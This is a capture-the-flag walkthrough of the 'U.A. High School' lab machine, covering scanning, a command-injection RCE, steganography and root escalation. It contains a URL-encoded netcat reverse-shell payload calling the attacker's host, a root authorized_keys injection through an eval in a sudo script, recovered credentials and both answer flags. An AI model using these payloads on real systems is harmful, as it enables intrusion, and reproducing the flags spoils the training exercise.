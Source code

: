 # U.A. High School
This machine was actually really difficult for me, and at some point I had to look for hints in other walkthroughs<br />
(Flags are at the end of the writeup)

### U.A. High School
Initial scan shows port 22 and 80 open:

    # Nmap 7.94SVN scan initiated Tue Oct 29 09:54:33 2024 as: nmap -p22,80 -sV -sC -oN scan 10.10.3.157
    Nmap scan report for 10.10.3.157
    Host is up (0.059s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
    |   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
    |_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: U.A. High School
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Enumerating the webpage, I found a `/assets` directory. Inside it, using gobuster, I found `/assets/index.php`. This page was empy and I didn't know how to move on, so I used `dirsearch` to scan this directory. <br />
![image](https://github.com/user-attachments/assets/0c273fc3-9a25-473b-b3ea-e3b4b97a9489)<br />
cmd=dir, uh. If I substitute it with cmd=whomai, I get back the following string `d3d3LWRhdGEK`, which is the base64 encoded version of www-data. This is a RCE; no idea where it came from but I'll accept it. Time to get a reverse shell.<br />
Open a netcat listener on the attacker's machine. The payload that worked for me is `http://10.10.174.239/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=rm%20/tmp/f;mkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.11.108.100%204444%20%3E%2Ftmp%2Ff`.<br />
Visiting the web page directory, I found a Hidden_Content folder: <br />
![image](https://github.com/user-attachments/assets/a0d7e833-0e2c-4140-9e2b-cb7f2441b708)<br />
Which is `AllmightForEver!!!` encoded in base64.<br />
At this point I had to look to another walkthough, I didn't how to move on. I thought I enumerated everything. But the right path was actually examining the images inside `/assets/images`. <br />
I transfered them in my machine with netcat:<br />
![image](https://github.com/user-attachments/assets/27d43c86-afdb-45f0-87cc-5f7fbd17a462)<br />
`yuei.jpg` is the background of the page, while `oneforall.jpg` has some bug because I can't open it. Now that I think about it, there was no other image besides the yuei school on the web page. So maybe it makes sense to get suspicious when looking at an unseen image.<br />
But I mean cmon.. <br />
Moving on, let's try to fix this image. If we open the image with `hexeditor` we can see that it has the signature of a `.png` file, and not of a `.jpg` file. So we have to fix the signature:<br />
![image](https://github.com/user-attachments/assets/e072e3e7-df38-4473-8298-30a40bf12171)<br />
Now that the signature is fixed, I can actually see the image:<br />
![image](https://github.com/user-attachments/assets/c6bd2076-724c-4fde-8df2-d0b1c81be653)<br />
So now the idea is to find hidden information inside this image. This practice is called steganography. There's a tool on kali for this, called `steghide`. The command to extract data is: `steghide --extract -sf oneforall.jpg`. 
It asks for a passphrase, use `AllmightForEver!!!`<br />
![image](https://github.com/user-attachments/assets/ebb549ca-714f-412e-9031-cda307ceea86)<br />
`deku:One?For?All_!!one1/A`. This is how we get `user.txt`. Running `sudo -l` shows the following:<br />
![image](https://github.com/user-attachments/assets/a10097c9-8746-49b4-ac9d-7db871be4e5d)<br />
The code of `feedback.sh` seems to run the `eval` function with `eval "echo $feedback"`, where $feedback is our input. Since `>` and `/` are not filtered, I can submit something like `hello > /tmp/out.txt` and it should work:<br />
![image](https://github.com/user-attachments/assets/9008c87b-465a-43d5-82f2-be439c30b814)<br />
So to exploit this, we can create a set of keys with ssh-keygen, and insert the public key inside the `authorized_keys` file inside `/root/.ssh`. So, create the keys with `ssh-keygen -t rsa -b 2048 -f id_rsa_ua`. Then copy the public key and run `sudo ./feedback.sh` and submit the following payload:

    pub_key > /root/.ssh/authorized_keys
Now run `chmod +x id_rsa_ua` and log into root's account with `ssh root@IP -i id_rsa_ua`<br />
![image](https://github.com/user-attachments/assets/e53a9352-a7bb-4437-bd8a-055c312c4954)<br />




- What is the user.txt flag? `THM{W3lC0m3_D3kU_1A_0n3f0rAll??}`
- What is the root.txt flag? `THM{Y0U_4r3_7h3_NUm83r_1_H3r0}`
